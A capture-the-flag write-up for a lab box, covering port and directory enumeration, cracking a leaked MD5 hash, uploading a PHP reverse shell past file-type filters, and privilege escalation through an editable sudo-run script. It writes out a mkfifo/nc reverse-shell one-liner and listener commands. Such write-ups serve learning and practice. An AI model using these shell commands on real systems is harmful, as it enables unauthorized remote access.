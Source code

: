 # Road Write-up

## Initial Enumeration

The only initial information provided is an IP address. We begin by conducting an Nmap scan to identify open ports and services:

```bash
nmap -sC -sV -v {target_ip}
```

### Scan Results:
```
PORT   STATE SERVICE VERSION                                                                                                                         
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                                    
| ssh-hostkey:                                                                                                                                       
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Scan Results:

Our scan reveals the server is running SSH and a Webpage.

## Webpage Enumeration

The webpage is a default page for Apache2 Ubuntu. Further enumeration with a gobuster scan reveals some important pages.

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.166.211 -x .txt,.php
```

http://10.10.166.211/content/

![image](https://github.com/user-attachments/assets/fcf29936-ff08-4728-ac64-6bd47ba7811e)

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.166.211/content -x .txt,.php
```

More enumeration on this page gives results but the important results are


/inc (Status: 301) [Size: 320] [--> http://10.10.166.211/content/inc/] -> A login page
/as  (Status: 301) [Size: 319] [--> http://10.10.166.211/content/as/] -> The included content which contains a sql backup!

Downloading and opening the SQL backup reveals information such as possible usernames and password hashes. Using crackstation, we find a match for an MD5 hash, possibly a password we could use.

Username: manager
Password: 42f749ade7f9e195bf475f37a44cafcb : Password123

Using these credentials on the login page found earlier, access to the cms is achieved!

### Reverse Shell

![image](https://github.com/user-attachments/assets/b006984d-8424-4dce-ba6a-00eab0d054dc)

Similiar to a technique to a technique I learned to get a WordPress reverse shell, uploading a php reverse shell file (with a renamed type to avoid filters) means a reverse shell can be made with a nc listener.

Uploading our shell and clicking on the file after starting the listener gives a shell with user 

```bash
nc -lvnp 8080
```

### First Flag
The first flag requires no further privilege escalation and can be found in the /home/itguy folder

$ cat user.txt

## Privilege Escalation

The first thing to check is any sudo priveleges the user has, in this case itguy can backup.pl which calls copy.sh.

![image](https://github.com/user-attachments/assets/31cf8c1c-a0d1-4686-8158-fe170a5fe433)

By editing copy.sh, the attacking machine can recieve the connection, gaining an elevated access shell. The only thing to change is the ip address in copy.sh.

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {local_ip} 1234 >/tmp/f

Running another nc listener

```bash
nc -lvnp 1234
```

The root flag is can be found in the root directory!

$ cat root.txt

### Notes:
Very simply box overall but lots of fundamentals, enumerate, enumerate, enumerate. The privilege escalation was easy but something I use to struggle with so I'm getting better.
I'd like to try out the exploitdb exploits next time I do something like this, I just recognized how to do this from previous boxes that had simple file upload vulnerabilities.
